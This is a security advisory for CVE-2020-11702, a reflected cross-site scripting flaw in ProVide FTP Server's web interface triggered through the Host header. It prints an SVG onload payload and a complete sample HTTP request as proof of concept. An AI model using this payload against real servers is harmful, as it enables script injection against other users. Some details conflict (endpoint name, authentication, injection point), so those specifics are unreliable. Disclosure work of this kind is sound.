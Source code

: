 # Waitedit - Reflected Cross-Site-Scripting via Host Header manipulation

## Summary

The application does not consistently validate client side input, and as a result of this it was identified that the web application was vulnerable to Reflected Cross-Site Scripting.

In the context of this vulnerability, a logged in attacker may execute active content in the context of other logged in users, injecting JavaScript or other active contect in the display name, and sharing a public accessible link.

## VulDB-Like Summary

A vulnerability has been found in the Admin Web Interface of ProVide FTP Server (formerly zFTP) for Windows up to v13.1. It has been declared as problematic. Affected by this vulnerability is an unknown part of the file /ajax/collaborate. The manipulation of the **Host header** with the input value `"/a><svg/onload=alert(1)><a href="` leads to a cross site scripting vulnerability. The CWE definition for the vulnerability is CWE-79. As an impact it is known to affect integrity. An attacker might be able to inject arbitrary html and script code into the web site. This would alter the appearance and would make it possible to initiate further attacks against site visitors.

The weakness was disclosed 04/06/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). It is possible to read the advisory at github.com. This vulnerability is known as CVE-2020-11702. The attack can be launched remotely. The exploitation doesn't need any form of authentication. Technical details of the vulnerability are known, but there is no available exploit.

## Proof-of-Concept

**Sample affected URL:**

* https://provide.ftp.local:8443/dkb4QRBT4hG4EGMu/ajax/waitedit

**Sample request:**

```
POST /n8nTTXWuZgi9gDyy/ajax/waitedit HTTP/1.1
Host: "/a><svg/onload=alert(1)><a href="
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded;charset=utf-8
X-Requested-With: XMLHttpRequest
Content-Length: 115
Origin: https://provide.ftp.local
Connection: close
Referer: https://provide.ftp.local/
Cookie: ProVideSessionID=u1aSUSPhZUEgmuu

url=https%3A%2F%2Fprovide.ftp.local%2Fn8nTTXWuZgi9gDyy%2F4Z93Q76H%2Ftestfiletxt
```

## Remediation

No official fix is available for this issue.

## References

* [https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
* [https://www.google.com/intl/en/about/appsecurity/learning/xss/](https://www.google.com/intl/en/about/appsecurity/learning/xss/) 
* [https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) 
